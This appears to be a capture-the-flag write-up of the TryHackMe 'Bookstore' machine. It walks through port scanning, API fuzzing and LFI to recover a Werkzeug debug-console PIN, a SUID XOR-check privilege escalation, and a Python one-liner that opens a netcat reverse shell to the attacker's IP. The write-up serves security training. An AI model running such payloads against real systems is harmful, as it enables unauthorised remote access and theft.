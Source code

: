```yaml
---
title: Bookstore TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```


![logo](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/logo.jpeg)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/1.png)

## Enumeration
We list two web services on port 80 of this website:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/2.png)

In the source code of the file *"login.html"* we list relevant information about a PIN that is stored in a file *.bash_history*

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/8.png)

And at port 5000:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/3.png)

In the nmap capture, it listed the directory *"/api/"*, there we will be able to list several of the site's functionalities.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/4.png)

We test the API and see that it works correctly from Burp.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/5.png)

We use the **Nikto** tool and enumerate the directory *"/console/"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/6.png)

We access to the directory and we see that it asks for a PIN to be able to unlock this functionality.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/7.png)


## Exploitation
Searching on Google about the type of server and its PIN, I found this [documentation](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug)

To get the PIN, we would need to know a couple of parameters, but to get them we must be able to read some system files. 

Here the API will come into play, so we will do a brute force attack to enumerate some parameter that will help us to do LFI (Local File Inclusion).

We launched the **Wfuzz** tool with an average dictionary, in version 2 of the API we did not list anything new, but in version 1 we did.

#### API V2

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/9.png)

#### API V1

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/10.png)

If we access from the browser, we see that we can embed files (LFI).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/11.png)

#### Flag user.txt

We exploit the vulnerability to be able to read the flag *user.txt*

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/12.png)


Recall that they mentioned that the PIN was being stored in the *.bash_history* file. Thanks to the */etc/passwd* file, we know the user names that contain home folder and we can enumerate the file and the access PIN.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/13.png)

We use the PIN and now we have access to the interactive console.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/14.png)

We use the following payload and we will have a reverse shell to the victim machine.

### Code Execute

``` python

__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f').read();

```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/15.png)

### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/16.png)


## Privilege Escalation

We checked the directory of the user *"sid"*, we found a binary that could be the way to escalate privileges, since it runs as the **root** user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/17.png)


We transfer the binary to our kali, check with the **Ghidra** tool and see the conditional where it calls the 3 parameters calculating the xor value. 


![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/20.png)


But even if we are missing a parameter, we can obtain it by reversing the xor with the values we have.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/21.png)

With the magic number in our hands, we insert it and we become root and read the flag of *root.txt*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/22.png)
